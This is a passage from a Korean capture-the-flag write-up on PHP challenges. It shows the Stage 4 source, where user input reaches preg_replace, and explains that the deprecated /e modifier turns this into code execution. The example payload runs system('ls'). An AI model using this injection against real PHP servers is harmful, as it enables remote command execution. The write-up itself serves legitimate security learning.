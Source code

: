 Stage 3 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass=1e3`

### Stage 4
```php
<?php
   $stage === 4 or die("nope");

   if(isset($_GET['pass1']) && isset($_GET['pass2']))
      echo preg_replace($_GET['pass1'], $_GET['pass2'], '-');
?>
```

다른 문제에 비해서 `preg_replace`만 있고 목표가 보이지 않는 문제입니다.

하지만 `preg_replace`를 조사해보면

![](./img/web_php4.png)

`/e 변경자`를 사용해서 PHP코드를 실행 시킬 수 있다고 합니다.!

그렇다면 `preg_replace("/-/e", "system('ls')", "-");` 이렇게 보내주게 되면 `ls`명령어가 실행 되겠네요!

![](./img/web_php5.png)
\<ls 명령어가 실행 된 모습>
